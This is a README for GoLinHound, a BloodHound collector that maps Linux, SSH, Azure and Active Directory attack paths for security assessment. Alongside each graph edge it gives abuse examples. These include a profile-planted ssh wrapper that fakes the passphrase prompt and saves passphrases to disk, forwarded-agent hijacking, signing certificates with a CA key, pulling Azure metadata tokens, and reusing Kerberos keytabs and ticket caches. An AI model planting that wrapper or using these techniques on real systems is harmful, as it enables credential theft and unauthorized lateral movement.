



# GoLinHound


A [BloodHound](https://github.com/SpecterOps/BloodHound) collector written in Go that discovers Linux and SSH attack paths.
Outputs [OpenGraph](https://bloodhound.specterops.io/opengraph/schema) JSON and integrates with existing [SharpHound](https://github.com/SpecterOps/SharpHound) and [AzureHound](https://github.com/SpecterOps/AzureHound) data.

## Table of Contents

- [Getting Started](#getting-started)
  - [Collector requirements and options](#collector-requirements-and-options)
  - [Extension installation and upgrades](#extension-installation-and-upgrades)
- [Data Model](#data-model)
  - [SSH: Key-Based Authentication](#ssh-key-based-authentication)
  - [SSH: Certificate-Based Authentication](#ssh-certificate-based-authentication)
  - [Linux](#linux)
  - [Azure / Entra](#azure--entra)
  - [Active Directory](#active-directory)
- [Cypher Queries](#cypher-queries)
- [Large-Scale Deployment](#large-scale-deployment)
- [Author & License](#author--license)
- [Acknowledgements](#acknowledgements)

## Getting Started

Before collecting data, upload the extension bundle [`extension/GoLinHound-v1.0.0.zip`](extension/GoLinHound-v1.0.0.zip) through [OpenGraph Management](https://bloodhound.specterops.io/opengraph/extensions/manage) in BloodHound 9.9.0 or later.

```bash
# clone repository
git clone https://github.com/rantasec/golinhound
cd golinhound

# build golinhound yourself
make build

# alternatively, download latest release
wget -P "bin/" "https://github.com/RantaSec/golinhound/releases/latest/download/golinhound-linux-amd64"
wget -P "bin/" "https://github.com/RantaSec/golinhound/releases/latest/download/golinhound-linux-arm64"

# execute golinhound
sudo ./bin/golinhound-linux-amd64 collect > output.json

# optional: merge multiple output files
cat *.json | ./bin/golinhound-linux-amd64 merge > merged.json
```

### Collector requirements and options

The collector supports Linux on amd64 and arm64. Building from source requires Go 1.27.3 or later, as declared in `go.mod`; prebuilt binaries do not require Go. Collection requires root: unprivileged collection is rejected. The host must provide `/etc/machine-id`, `/etc/passwd`, and working hostname resolution.

Collection uses `sshd -T`, `ssh-add -L`, `sudo -l`, `journalctl`, and `getent` for the corresponding SSH, sudo, and account-discovery features. Missing tools or inaccessible source data can reduce coverage. No measured minimum CPU, RAM, or disk requirement is currently published; requirements depend on the host's accounts, credentials, and resulting graph size.

| Command | Option | Purpose |
| --- | --- | --- |
| `collect` | `-wait-for-keys <minutes>` | Watch for new forwarded-agent sockets; defaults to `0` for a one-shot collection. |
| `collect` | `-include-expired-certs` | Include expired SSH certificates; disabled by default. Historical certificates can produce paths that are no longer usable. |
| `collect`, `merge` | `-verbose` | Enable debug logging to stderr. |

For example, `sudo ./bin/golinhound-linux-amd64 collect -wait-for-keys 5 -verbose > output.json` watches for forwarded keys for five minutes.

### Extension installation and upgrades

Upload the committed [`GoLinHound-v1.0.0.zip`](extension/GoLinHound-v1.0.0.zip) through **Administration > OpenGraph Management** in BloodHound 9.9.0 or later.

The bundle contains [`schema.json`](extension/schema.json) and [`saved_queries.json`](extension/saved_queries.json). Graph data is collected and uploaded separately. The JSON query file uses the extension-bundle format; it is not a legacy saved-query bulk-import export.

This version prefixes extension-owned node and relationship kinds with `GLH_`. Object IDs and built-in AD/Azure kinds are unchanged. Existing graph data and custom queries using the old kinds need migration: recollect and re-ingest with the updated collector, and update custom Cypher references. Re-ingestion alone does not remove old labels or relationships. Review and remove obsolete data separately using your normal data-management procedure; no automatic cleanup is performed. Existing legacy icon configuration is not automatically removed.

All twelve relationship kinds are declared traversable based on the attack paths described below. This preserves the author's attack model, including the two directions of `SameMachine`; it does not prove that every credential, sudo grant, certificate, or Azure control prerequisite is currently exploitable. See each relationship's schema description for qualifications.

## Data Model

This section describes the edges collected by GoLinHound and provides examples how they can be abused. The diagrams and headings use short kind names; the collector, schema, and saved queries use the `GLH_` prefix. Built-in Azure and Active Directory kinds retain their existing names.

### SSH: Key-Based Authentication



#### HasPrivateKey

Collected by parsing all private keys in `$HOME/.ssh/` directories. This edge indicates that a user has access to a specific SSH keypair.

If the corresponding private key is password-protected, the password can be captured by adding an SSH command alias to the user's profile:
```bash
ssh() {
  for ((i=1; i<=$#; i++)); do
    if [[ ${!i} == "-i" ]]; then
      next=$((i+1))
      if ssh-keygen -y -P "" -f "${!next}" >/dev/null 2>&1; then
        break
      fi
      if [[ -f "${!next}.password" ]]; then
        break
      fi
      echo -n "Enter passphrase for key '${!next}': "
      read -s passphrase
      echo ""
      echo "$passphrase" > ${!next}.password
      break
    fi
  done
  command ssh "$@"
}
```


#### CanSSH
Collected by parsing `authorized_keys` files. This edge indicates that a SSHKeyPair can be used to authenticate via SSH to an SSHComputer as a specific SSHUser.

Connect using the private key:
```bash
ssh -i <priv_key> user@host
```

#### ForwardsKey
This edge links an SSHUser to a keypair available through a forwarded agent socket on the user's SSHComputer, collected via [SSH agent forwarding](https://medium.com/@alejlopbu/hijacking-ssh-sessions-to-move-laterally-3d6a708b683b).

Use the forwarded authentication socket to authenticate to other hosts:

```bash
export SSH_AUTH_SOCK="/tmp/ssh-IbF2XDIsRI/agent.9869"
ssh user@host
```


### SSH: Certificate-Based Authentication



#### HasCertificate

Collected by parsing all `*-cert.pub` sibling files next to private keys in `$HOME/.ssh/` directories. This edge indicates that a user holds an OpenSSH certificate paired with a local private key.

Inspect the certificate to see which CA signed it, which principals it authorizes, and how long it's valid:
```bash
ssh-keygen -L -f <priv_key>-cert.pub
```

If the paired private key is password-protected, see [HasPrivateKey](#hasprivatekey) for capturing the passphrase.

#### CanCertSSH
Collected by parsing sshd's `TrustedUserCAKeys` and `AuthorizedPrincipalsFile`. This edge indicates that a SSHCertificate can be used to authenticate via SSH to an SSHComputer as a specific SSHUser.

Connect using the private key; `ssh` automatically picks up the sibling `<priv_key>-cert.pub`:
```bash
ssh -i <priv_key> user@host
```

#### CanIssueCertificate
Collected by parsing sshd's `TrustedUserCAKeys` and `AuthorizedPrincipalsFile`. This edge indicates that a SSHKeyPair is trusted as a certificate authority: anyone with the corresponding private key can issue a certificate for one of the listed principals and authenticate to an SSHComputer.

Generate a throwaway keypair, sign a certificate for a listed principal, and connect using it:
```bash
ssh-keygen -t ed25519 -N "" -f user_key
ssh-keygen -s <ca_priv> -I backup_admin_a3f9c2 -n <principal> user_key.pub
ssh -i user_key user@host
```


### Linux


#### IsRoot
This edge indicates that an SSHUser is the root user of an SSHComputer.

No additional exploitation needed - root is already the most privileged user on the system.

#### CanSudo

Collected by parsing sudoers configuration files. This edge indicates that a user has privileges to execute commands as root via sudo.

Escalate to root privileges:
```bash
sudo -u#0 bash
```

#### CanImpersonate

Once a user has escalated to root, they can impersonate any other user on the system.

Execute bash as another user:

```bash
sudo -u <username> bash
```


### Azure / Entra


#### SameMachine
This edge indicates that an SSHComputer is an AZVM. This edge is bidirectional.

A token for the machine identity can be obtained via:
```bash
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s
```

A privileged Azure user can execute code on the VM via:
```bash
az vm run-command invoke \
  --resource-group myResourceGroup \
  --name myLinuxVM \
  --command-id RunShellScript \
  --scripts "whoami"

```


### Active Directory



#### HasKeytab

This edge indicates that an SSHUser holds credentials for an Active Directory user in a keytab file owned by that SSHUser.

Extract Kerberos encryption keys from the keytab:
```bash
klist -eKkt /home/alice/svc_custom.keytab
```

#### HasTGT
This edge indicates that an SSHUser holds cached Ticket Granting Tickets (TGTs) for an Active Directory user in a `/tmp/krb5cc_*` file owned by that SSHUser.

Export and use the credential cache:
``` bash
export KRB5CCNAME=/tmp/krb5cc_<uid>
klist
```


## Cypher Queries

Queries that uncover interesting attack paths are in [`extension/saved_queries.json`](extension/saved_queries.json) and included in the extension bundle.

[Open the JSON in queries.specterops.io](https://queries.specterops.io/?source=https%3A%2F%2Fraw.githubusercontent.com%2FRantaSec%2Fgolinhound%2Frefs%2Fheads%2Fmain%2Fextension%2Fsaved_queries.json&sourceLabel=GoLinHound) to view and run them.


## Large-Scale Deployment

GoLinHound can be deployed using any tool with remote code execution capabilities across your Linux infrastructure. For [Velociraptor](https://github.com/Velocidex/velociraptor) users, a pre-built artifact is provided below for streamlined deployment:

```vql
name: Custom.Linux.Linhound.GoTool
description: |
   Velociraptor Client Artifact to push GoLinhound to a client and execute. The binary will be downloaded to a temporary folder and will be deleted after execution. The artifact will return the json which can be pushed to Bloodhound.

author: Hendrik Schmidt, @hendrkss

precondition: SELECT OS, PlatformFamily, Architecture FROM info() WHERE OS = 'linux' AND NOT Architecture =~ 'arm'
type: CLIENT

implied_permissions:
  - EXECVE
  - FILESYSTEM_WRITE
  - FILESYSTEM_READ

tools:
  - name: goLinhound
    url: https://github.com/RantaSec/golinhound/releases/latest/download/golinhound-linux-amd64

sources:
    - name: GetToolingAndExecute
      query: |
              LET getTool = SELECT OSPath as MyPath FROM Artifact.Generic.Utils.FetchBinary(
                      ToolName= "goLinhound", 
                      ToolInfo="GoLinhound Executable",
                      IsExecutable=TRUE,
                      TemporaryOnly=TRUE
                    )
              
              LET runTool = SELECT MyPath,* FROM execve(argv=[MyPath,"collect"],length=100000000)
              
              SELECT * FROM foreach(
                            row=getTool,
                            query={SELECT * FROM chain(a=runTool)
                            }
                    )
```


## Author & License

Copyright © 2026 Lukas Klein. Licensed under GPL-3.0 - see [LICENSE](LICENSE).

## Acknowledgements

I would like to thank the following people for their support on this project:

- **Hendrik Schmidt** ([@hendrkss](https://github.com/hendrkss)) for valuable discussions and working out the Velociraptor deployment strategy

- **Hilko Bengen** ([@hillu](https://github.com/hillu)) for general guidance and support

